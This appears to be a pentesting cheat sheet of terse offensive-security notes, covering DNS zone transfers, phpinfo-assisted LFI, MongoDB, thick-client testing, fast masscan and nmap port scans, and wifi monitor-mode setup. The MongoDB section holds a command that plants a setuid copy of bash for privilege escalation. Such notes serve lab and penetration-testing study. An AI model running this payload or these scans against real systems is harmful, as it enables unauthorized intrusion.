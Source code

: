 Port 53 Open

- Nslookup
  - SERVER `<IP>`
    - Search for `127.0.0.1` and `<IP>`
- Zone Transfer
  - `dig axfr@<ip> <hostname>`


## PHPINFO()

[Insomnia #1 <3](https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf)

- Check for `file_uploads = on` in phpinfo > meaning any php request will accept uploaded files

## MongoDB

- likes everything in json
- `mongo <dbs> -u <user> -p`
- `db.tasks.insert({"cmd":"/bin/cp /bin/bash /tmp/tom; /bin/chown tom:admin /tmp/tom; chmod g+s /tmp/tom; chmod u+s /tmp/tom"});`

## Thick Client Testing

- Nmap box before installing target app then nmap again after
- install [Microsoft Attack Surface Analyzer](https://github.com/microsoft/AttackSurfaceAnalyzer) run before installing the target app then run again after 
- Sysinternals
- DLL Hijacking [Hijacklib](https://hijacklibs.net/)

## fast as ffff scan

- `sudo masscan 192.168.141.90 -p0-65535 --rate 1000 -e tun0`
- `masscan -p1-65535,U:1-65535 10.10.10.x --rate=1000 -e tun0` //might miss something
- `sudo nmap --min-rate 4500 --max-rtt-timeout 1500ms 192.168.141.90 -p-`

## Wifi Pentesting

- `sudo airmon-ng` shows our device's driver.


```bash
kali@kali:~$ sudo airmon-ng

PHY     Interface       Driver          Chipset

phy0    wlan0           ath9k_htc       Qualcomm Atheros Communications AR9271 802.11n
```

- `iw` new command
- `sudo iw dev wlan0 scan | egrep "DS Parameter set|SSID:` get the channel
- `sudo iw dev wlan0 interface add wlan0mon type monitor` use wlan0 to setup wlan0mon in monitor mode
- `sudo ip link set wlan0mon up` bring wlan0mon up
- `sudo iw dev wlan0mon info` show wlan0mon info
- `sudo iw dev wlan0mon interface del` remove
